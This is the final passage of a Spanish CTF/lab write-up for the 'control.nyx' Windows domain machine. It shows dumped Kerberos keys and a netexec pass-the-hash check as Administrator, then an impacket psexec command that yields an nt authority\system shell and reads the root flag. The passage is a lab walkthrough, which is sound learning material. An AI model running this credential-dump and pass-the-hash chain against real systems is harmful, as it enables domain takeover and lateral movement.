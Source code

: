 ```console
control.nyx\a.hansen:aes256-cts-hmac-sha1-96:fd82c8b8af1452f8eede5b2ad82a7a9d0a82a3f6bfcd3a69d075f88fd40b0fe6
control.nyx\a.hansen:aes128-cts-hmac-sha1-96:8606d5df957b06541cbb988be5835c80
control.nyx\a.hansen:des-cbc-md5:34e05b94b37564c1
CONTROLER$:aes256-cts-hmac-sha1-96:4d6f34b2b4583bbfe640913f7002e7bf2a97159dd20d99e890e708e357e598b8
CONTROLER$:aes128-cts-hmac-sha1-96:6b2555cf8f56293079e8fa47aad68aa1
CONTROLER$:des-cbc-md5:8a3b2c8c67759843
[*] Cleaning up...
```

Podemos comprobar que este hash es válido con `netexec` haciendo Pass The Hash.
```console
nxc smb 192.168.2.6 -u Administrator -H '48b20d4f3ea31b7234c92b71c90fbff7'
SMB         192.168.2.6     445    CONTROLER        [*] Windows 10 / Server 2019 Build 17763 x64 (name:CONTROLER) (domain:control.nyx) (signing:True) (SMBv1:False)
SMB         192.168.2.6     445    CONTROLER        [+] control.nyx\Administrator:48b20d4f3ea31b7234c92b71c90fbff7 (Pwn3d!)
```

Y para terminar podemos conseguir una consola interactiva como `nt authority\system` con `psexec`
```console
psexec.py -target-ip 192.168.2.6 -dc-ip 192.168.2.6 -no-pass -hashes ':48b20d4f3ea31b7234c92b71c90fbff7' control.nyx/Administrator@controller.control.nyx
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.2.6.....
[*] Found writable share ADMIN$
[*] Uploading file meDRydBL.exe
[*] Opening SVCManager on 192.168.2.6.....
[*] Creating service wNhF on 192.168.2.6.....
[*] Starting service wNhF.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.3650]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Podemos leer la flag de `root`
```console
C:\Users\Administrator\Desktop> type root.txt
b43e4c1b7df273...
```

¡Y ya estaría!

Happy Hacking! 🚀